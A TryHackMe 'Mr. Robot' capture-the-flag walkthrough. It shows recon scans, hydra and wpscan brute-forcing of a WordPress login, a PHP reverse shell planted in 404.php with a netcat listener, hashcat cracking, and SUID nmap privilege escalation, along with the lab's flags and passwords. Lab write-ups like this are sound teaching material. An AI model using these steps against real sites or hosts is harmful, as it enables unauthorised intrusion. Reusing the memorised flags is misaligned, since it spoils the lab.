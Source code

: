 ```yaml
---
title: "TryHackMe - Mr. Robot Walkthrough"
date: 2020-09-27
tags: [tryhackme, walkthrough]
header:
  image: "/images/mrrobot-thumbnail.jpg"
excerpt: "Walkthroughs"
---
```


# TryHackMe - Mr. Robot Walkthrough

Hello, everyone. Today I will share the Boot to Root process in Mr. Robot vulnerable machine. I will try to share only the main points during the process.

## Information Gathering
Firstly, we start with **Nmap scanning**
```
root@kali:~/Desktop/MrRobot# nmap -p- -T4 -A mrrobot.local
PORT STATE SERVICE VERSION  
22/tcp closed ssh  
80/tcp open http Apache httpd  
|_http-server-header: Apache  
|_http-title: Site doesn't have a title (text/html).  
443/tcp open ssl/http Apache httpd  
|_http-server-header: Apache  
...
```

We only find that there is a website of the machine. We investigate a bit the website. View page source code, typing commands in the website interface, but there is not anything special.

Then we make a **Nikto search**.
```
root@kali:~/Desktop/MrRobot# nikto -h mrrobot.local
```
It doesn't give a wanted result.
I run now on **Dirbuster** to find invisible, secret files, folders.
```
...
/wp-content/
/images/feed/
/wp-login/
...

Files found with a 200 response:

/wp-login.php
/wp-content/index.php
/license.txt
/robots.txt
```

That is wonderful. Now we know that this is a WordPress website and I found something interesting. "/robots.txt"

When I look for this page there is 3 title:

 1. User-agent: *
 2. fsocity.dic
 3. key-1-of-3.txt
I believe that the second and third titles are the files. I download both of them.

```
root@kali:~/Desktop/MrRobot# wget mrrobot.local/fsocity.dic  
...
root@kali:~/Desktop/MrRobot# wget mrrobot.local/key-1-of-3.txt  
...
root@kali:~/Desktop/MrRobot# cat key-1-of-3.txt  
073403c8a58a1f80d943455fb30724b9  
root@kali:~/Desktop/MrRobot# wc fsocity.dic
858160 858160 7245381 fsocity.dic
```
 We find the first key and find a dictionary file which has 858160 entries. We try to make a smaller file with deleting the same entries
```
root@kali:~/Desktop/MrRobot# cat fsocity.dic | sort | uniq > wordlist.dic
```
Now we have 11451 entries. Almost 75 times much smaller.

## Exploitation
Now we will do a **Brute force attack** to the WordPress login page to find the username, but before that, we will need to capture a POST request with **BurpSuite** to write a complete command.

<img src="https://photos.app.goo.gl/TGVz1fArps1ie5XA9"></img>

```
root@kali:~/Desktop/MrRobot# hydra -V -L ./wordlist.dic -p 123 mrrobot.local http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

 - **-V** : verbose mode
 - **-L** : login file
 - **-p** : password
 - **http-post-form** : we will do HTTP POST request
 - **'/wp-login.php:log=\^USER\^&pwd=\^PASS\^&wp-sumbit=Log+In=Invalid username'** : this is for WordPress admin login. For more you can look this link. ([Hydra Cheetsheet](https://github.com/frizb/Hydra-Cheatsheet))

The brute force attack has started.
```

...
[ATTEMPT] target mrrobot.local - login "eps1" - pass "123" - 23 of 858235 [child 3] (0/0)  
[80][http-post-form] host: mrrobot.local login: Elliot password: 123  
[ATTEMPT] target mrrobot.local - login "null" - pass "123" - 24 of 858235 [child 5] (0/0)  
...

```
Do you see that? When hydra used Elliot:123 the username and the password, the HTTP POST request was realized. It means that "Elliot" is our username.

The next step is to find the password of "Elliot". In this step, we will use **wpscan** command. It takes only a minute or two.
```

root@kali:~# wpscan --url http://mrrobot.local --passwords /root/Desktop/MrRobot/wordlist.dic --usernames Elliot  
...
[!] Valid Combinations Found:  
| Username: Elliot, Password: ER28-0652  
...

```
That's awesome! Now we can access the WordPress Admin Panel easily. Now we will need a reverse shell to access the host server.
On our machine, we are listening for coming connections using **netcat**:
```
root@kali:~/Desktop/MrRobot# nc -nvlp 1234  
listening on [any] 1234 ...  
```
After that, we edit the PHP reverse shell file's port number and IP address. Then we go to the Appearance menu and edit current pages. We delete all the codes in the 404.php file and add our reverse shell script. ([Reverse Shell Script](https://github.com/pentestmonkey/php-reverse-shell))

In another tab, we send a GET request to the 404 Error page.

```
root@kali:~/Desktop/MrRobot# wget mrrobot.local/404.php
```

And that's it. We successfully get the reverse shell.


## Privilege Escalation

```
...
$    
$ pwd  
/  
$ whoami  
daemon  
$ cd home  
$ ls  
robot  
$ cd robot  
$ ls  
key-2-of-3.txt  
password.raw-md5  
$ cat password.raw-md5  
robot:c3fcd3d76192e4007dfb496cca67e13b  
```

We are `daemon`, service user. We need to find the other two keys. We will change the directory to `home` to look for other users. We see there is only `robot` and also there are two files in the home directory of the robot. One of them is the second key and another is the MD5 hash. It is the hash of the password of `robot`.

We try to crack the hash by using rockyou.txt.
```
root@kali:~# hashcat -m 0 -a 0 -o password.txt /root/Desktop/MrRobot/hash ./rockyou.txt --show
root@kali:~/Documents# cat password.txt
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

```
It takes only a second. Amazing!


After that, we go back to our reverse shell and make it interactive.
```
$ python -c 'import pty; pty.spawn("/bin/sh")'
```

Then we log in to our `robot` account.
```
$ su robot
password: abcdefghijklmnopqrstuvwxyz
robot@linux:/$
```

We get it!
Now there is one important thing that we need to get root privileges to find the last and third key. So we will do **Privilege Escalation with SUID**. First of all, we are looking for such a type of bit sets.
```
robot@linux:/$ find / -perm 4000 >2 /dev/null  
find / -perm 4000 >2 /dev/null  
bash: 2: Permission denied  
robot@linux:/$ find / -perm 4000 >2/dev/null  
find / -perm 4000 >2/dev/null  
bash: 2/dev/null: No such file or directory  
robot@linux:/$ find / -perm -u=s -type f 2>/dev/null  
find / -perm -u=s -type f 2>/dev/null  
/bin/ping  
/bin/umount  
/bin/mount  
/bin/ping6  
/bin/su  
/usr/bin/passwd  
/usr/bin/newgrp  
/usr/bin/chsh  
/usr/bin/chfn  
/usr/bin/gpasswd  
/usr/bin/sudo  
/usr/local/bin/nmap  
/usr/lib/openssh/ssh-keysign  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper  
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper  
/usr/lib/pt_chown
```

Now, most of them are normal commands except one. It is `nmap`. I try to open the interactive nmap console:
```
robot@linux:/$ nmap --interactive
nmap>
```

Then, we try open shell by `/bin/sh` and it doesn't work. So we try such a legacy way.
```
nmap> !sh   
# id  
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)  
# cd /root
# cat key-3-of-3.txt  
04787ddef27c3dee1ee161b21670b4e4
```
We did it! Thanks for reading.
